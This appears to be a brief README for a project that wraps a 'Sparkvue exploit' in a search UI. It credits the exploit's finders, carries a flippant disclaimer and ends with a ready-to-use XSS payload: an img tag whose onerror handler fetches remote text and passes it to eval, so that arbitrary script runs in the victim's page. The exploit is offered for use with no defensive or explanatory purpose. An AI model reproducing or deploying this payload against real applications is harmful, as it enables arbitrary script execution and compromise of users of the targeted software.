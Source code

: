 This is a simple better UI search engine for the Sparkvue exploit originally found in 2024 or even earlier idk.

NOTE: I do not consent to your dumb self, if you get this exploit gone. don't come crying to me. Because IDC!


Also thanks to ohonbob for finding this beautiful exploit, and Amurkess for the Idea.

'<img src=# onerror='fetch("").then(r=>r.text()).then(c=>eval(c))'>'

